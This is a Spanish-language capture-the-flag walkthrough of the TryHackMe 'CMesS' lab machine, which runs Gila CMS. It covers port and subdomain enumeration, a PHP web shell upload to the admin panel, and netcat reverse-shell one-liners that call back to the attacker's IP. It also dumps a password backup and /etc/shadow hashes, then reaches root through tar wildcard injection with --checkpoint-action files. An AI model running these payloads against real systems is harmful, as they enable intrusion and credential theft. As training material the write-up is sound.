







TryHackMe - CMesS [Spanish]

Contenido
| Titulo | CMesS |
|---|---|
| Room | CMesS |
| Info | Can you root this Gila CMS box? |
| Puntos | 1155 |
| Dificultad | Media |
| Maker | Optional |
NMAP
Escaneo de puertos tcp/udp, nmap nos muestra varios puertos abiertos.
# Nmap 7.80 scan initiated Fri Feb 14 16:24:08 2020 as: nmap -p- -T4 -Pn -sV -sC -o nmap_scan 10.10.46.144
Nmap scan report for 10.10.46.144
Host is up (0.24s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
| 256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_ 256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
| http-robots.txt: 3 disallowed entries
|_/src/ /themes/ /lib/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Feb 14 16:45:03 2020 -- 1 IP address (1 host up) scanned in 1254.76 seconds
HTTP
A un principio veimas Gila CMS en el cual existe una vulnerabilidad de LFI pero el de esta maquina no es vulnerable.

GOBUSTER
Encontramos una larga lista de directorios, pero ninguno era de importancia hasta el momento.
root@aoiri:~/tryhackme/cmess# gobuster dir -u cmess.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -q -t 35
/1 (Status: 200)
/about (Status: 200)
/01 (Status: 200)
/login (Status: 200)
/search (Status: 200)
/blog (Status: 200)
/index (Status: 200)
/category (Status: 200)
/0 (Status: 200)
/feed (Status: 200)
/themes (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/tag (Status: 200)
/author (Status: 200)
/sites (Status: 301)
/log (Status: 301)
/tags (Status: 200)
/1x1 (Status: 200)
/lib (Status: 301)
/src (Status: 301)
/api (Status: 200)
/robots.txt (Status: 200)
/001 (Status: 200)
/1pix (Status: 200)
/fm (Status: 200)
/tmp (Status: 301)
/1a (Status: 200)
/0001 (Status: 200)
/1x1transparent (Status: 200)
/1px (Status: 200)
/1d (Status: 200)
/1_1 (Status: 200)
/1pixel (Status: 200)
/0001-exploits (Status: 200)
/01_hello (Status: 200)
/1-1 (Status: 200)
/1st (Status: 200)
/00000001 (Status: 200)
WFUZZ - SUBDOMAINS
Utilizamos wfuzz para poder enumerar los subdominios de la maquina, encontramos dev de subdominio.
root@aoiri:~/tryhackme/cmess# wfuzz -c -w subdomains-top1mil-5000.txt -u "http://cmess.thm" -H "Host: FUZZ.cmess.thm" --hl 107
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 2.4 - The Web Fuzzer *
********************************************************
Target: http://cmess.thm/
Total requests: 5000
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000000019: 200 30 L 104 W 934 Ch "***"
000002700: 400 12 L 53 W 422 Ch "m."
000002795: 400 12 L 53 W 422 Ch "ns2.cl.bellsouth.net."
000002883: 400 12 L 53 W 422 Ch "ns1.viviotech.net."
000002885: 400 12 L 53 W 422 Ch "ns2.viviotech.net."
000003050: 400 12 L 53 W 422 Ch "ns3.cl.bellsouth.net."
000004081: 400 12 L 53 W 422 Ch "ferrari.fortwayne.com."
000004082: 400 12 L 53 W 422 Ch "jordan.fortwayne.com."
000004083: 400 12 L 53 W 422 Ch "quatro.oweb.com."
Total time: 131.3119
Processed Requests: 5000
Filtered Requests: 4991
Requests/sec.: 38.07726
***.cmess.thm
En el subdominio dev encontramos una contraseña del correo andre. 
SHELL - www-data
Utilizamos las credenciales en el panel de administracion (/admin) con las credenciales que tenemos, una vez dentro subimos un archivo PHP de prueba para verificar que podamos ejecutar comandos, el archivo se subió en (/assets/).
<?php
echo "Testing if i can run commands:";
echo(exec("ls "));

Vemos que nuestro codigo se ejecuto: 
Editamos el codigo para ejecutar una shell inversa:
<?php
exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 7878 >/tmp/f");
echo ">:)";

Andre - User
Enumeramos la maquina en busca de archivos interesantes, en la carpeta /opt encontramos un backup de la contraseña de Andre.
www-data@cmess:/$ ls -lah opt
ls -lah opt
total 12K
drwxr-xr-x 2 root root 4.0K Feb 6 18:54 .
drwxr-xr-x 22 root root 4.0K Feb 6 17:57 ..
-rwxrwxrwx 1 root root 36 Feb 6 18:54 .password.bak
www-data@cmess:/$ cd opt
cd opt
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
andres backup password
UQ[... snip ...]P6
www-data@cmess:/opt$
Utilizamos ‘su’, obtenemos una shell y nuestra flag user.txt. 
PRIVILEGE ESCALATION
Dentro de los archivos de la carpeta /tmp encontramos un archivo comprimido, de lo que parece /home/andre/backup/, que, la realiza el usuario root cada minuto. Para ver el cambio del archivo utilizamos date para ver la fecha de creacion y hora. Con lo anterior, renombramos la carpeta backup a backup_bak, creamos un symlink hacia la carpeta /root/, el usuario root realizara un backup de la carpeta /root/.
O simplemente utilizar cat /etc/crontab para ver los crons xD

Al pasar un minuto, vemos que la hora de creacion cambio y al extraer los archivos podemos ver nuestra flag root.txt.

De la misma forma podemos obtener la contraseña del usuario root (crackeada) haciendo un symlink hacia la carpeta /etc/.
andre@cmess:~$ ln -s /etc/ backup
andre@cmess:~$ ls -lah
total 3.0M
drwxr-x--- 4 andre andre 4.0K Feb 14 18:27 .
drwxr-xr-x 3 root root 4.0K Feb 6 18:00 ..
lrwxrwxrwx 1 andre andre 11 Feb 14 18:27 backup -> /etc/
drwxr-x--- 2 andre andre 4.0K Feb 14 17:44 backup_bak
lrwxrwxrwx 1 root root 9 Feb 6 18:48 .bash_history -> /dev/null
-rwxr-x--- 1 andre andre 220 Feb 6 18:00 .bash_logout
-rwxr-x--- 1 andre andre 3.7K Feb 6 18:00 .bashrc
drwxr-x--- 2 andre andre 4.0K Feb 6 18:01 .cache
-rwxr-x--- 1 andre andre 655 Feb 6 18:00 .profile
-rwxrwxr-x 1 andre andre 3.0M Aug 22 11:38 pspy64
lrwxrwxrwx 1 root root 9 Feb 6 18:48 .sudo_as_admin_successful -> /dev/null
-rwxr-x--- 1 andre andre 38 Feb 6 18:46 user.txt
-rwxr-x--- 1 andre andre 635 Feb 9 11:00 .viminfo
andre@cmess:~$ date
Fri Feb 14 18:27:05 PST 2020
andre@cmess:~$
Descomprimimos el archivo y obtenemos la contraseña encriptada:
andre@cmess:/tmp$ ls |grep sha
gshadow
gshadow-
shadow
shadow-
andre@cmess:/tmp$ cat shadow
root:$6$W.gDTDR8$XXB79ORIcggP9.Cl2HzbUf[... snip ...]sdXoYOhB7Da9mFPcca5a3DyKG1:18299:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
messagebus:*:18299:0:99999:7:::
uuidd:*:18299:0:99999:7:::
andre:$6$GeMRsVKt$KEQmO.oV7yzpLOVXjDX[... snip ...]uzhMTMl5J8rstkFQ1QD3/dLFS1yAMqj1kbiQWYvQ8.:18299:0:99999:7:::
mysql:!:18299:0:99999:7:::
sshd:*:18299:0:99999:7:::
andre@cmess:/tmp$
SHELL - ROOT
Para obtener una shell con el usuario root utilizamos las ‘wildcards’ para ejecutar una shell inversa. Creamos un archivo con nuestra shell inversa y las ‘wildcards’ que se ejecutarán junto con el comando tar:
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.1.72 8989 >/tmp/f" > shell.sh
echo ""> "--checkpoint-action=exec=sh shell.sh"
echo ""> --checkpoint=1
Verificamos:
andre@cmess:~/backup$ ls
--checkpoint=1 --checkpoint-action=exec=sh shell.sh shell.sh
andre@cmess:~/backup$
Esperamos y obtenemos una shell root:

INFO - Wildcard Privilege Escalation
MYSQL
Dentro de la configuracion de la pagina vemos las credenciales para conectarse a la base de datos, encontramos algunas tablas interesantes pero ningun dato nos ayudo para ninguno de los usuarios.
www-data@cmess:/var/www/html$ cat config.php
cat config.php
<?php
$GLOBALS['config'] = array (
'db' =>
array (
'host' => 'localhost',
'user' => 'root',
'pass' => 'r0otus3rpassw0rd',
'name' => 'gila',
),
'permissions' =>
array (
1 =>
array (
0 => 'admin',
1 => 'admin_user',
2 => 'admin_userrole',
),
),
'packages' =>
array (
0 => 'blog',
),
'base' => 'http://cmess.thm/gila/',
'theme' => 'gila-blog',
'title' => 'Gila CMS',
'slogan' => 'An awesome website!',
'default-controller' => 'blog',
'timezone' => 'America/Mexico_City',
'ssl' => '',
'env' => 'pro',
'check4updates' => 1,
'language' => 'en',
'admin_email' => 'andre@cmess.thm',
'rewrite' => true,
);www-data@cmess:/var/www/html$
Utilizamos las credenciales con mysql, y en la tabla users de la base de datos gila encontramos la contraseña encriptada del usuario andre, ademas de eso encontramos las cookies del usuario andre:
mysql> show databases;
show databases;
+--------------------+
| Database |
+--------------------+
| information_schema |
| gila |
| mysql |
| performance_schema |
| sys |
+--------------------+
5 rows in set (0.00 sec)
mysql> use gila;
use gila;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A
Database changed
mysql> show tables;
+----------------+
| Tables_in_gila |
+----------------+
| option |
| page |
| post |
| postcategory |
| postmeta |
| user |
| usermeta |
| userrole |
| widget |
+----------------+
9 rows in set (0.00 sec)
mysql> select * from user;
select * from user;
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
| id | username | email | pass | active | reset_code | created | updated |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
| 1 | andre | andre@cmess.thm | $2y$10$uNAA0MEze02jd.qU9tnYLu43bNo9nujltElcWEAcifNeZdk4bEsBa | 1 | | 2020-02-06 18:20:34 | 2020-02-06 18:20:34 |
+----+----------+-----------------+--------------------------------------------------------------+--------+------------+---------------------+---------------------+
1 row in set (0.00 sec)
mysql> select * from usermeta;
select * from usermeta;
+----+---------+------------+----------------------------------------------------+
| id | user_id | vartype | value |
+----+---------+------------+----------------------------------------------------+
| 1 | 1 | privilege | admin |
| 2 | 1 | GSESSIONID | 1ik2ha97chatolvcena3moomw802zssf3e9tdo9v9fwl86w0uv |
| 3 | 1 | GSESSIONID | 1mwxigp2xzt4oc6ka9neshxlzrnwefvsmenppbod9826mmhikz |
+----+---------+------------+----------------------------------------------------+
3 rows in set (0.00 sec)